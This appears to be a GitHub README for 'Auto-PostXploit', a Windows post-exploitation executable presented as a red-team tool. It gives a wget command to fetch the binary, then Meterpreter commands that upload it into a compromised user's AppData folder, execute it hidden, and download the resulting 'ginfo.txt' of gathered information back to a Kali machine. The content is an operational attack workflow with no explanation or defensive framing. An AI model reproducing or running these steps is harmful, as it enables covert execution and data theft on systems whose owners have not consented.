 # Auto-PostXploit
<b>Windows Auto Post Exploitation - For ReD Team</b>


* https://github.com/emilyanncr/Windows-Post-Exploitation/


## Download :


  - wget https://raw.githubusercontent.com/BehzaDMagzer/Auto-PostXploit/master/Auto-PostXploit.exe
 


## Usage :

  
   - meterpreter > upload %path%/Auto-PostXploit.exe C:/Users/*USETNAME*/AppData
  
   - meterpreter > execute -H -f C:/Users/%USERNAME%/AppData/Auto-PostXploit.exe
  
    <i>If Auto-PostXploit.exe Not In Process</i>
  
   - meterpreter > download C:/Users/%USERNAME%/AppData/ginfo.txt /root/Desktop
  
   - root@kali:~# cat /root/Desktop/ginfo.txt

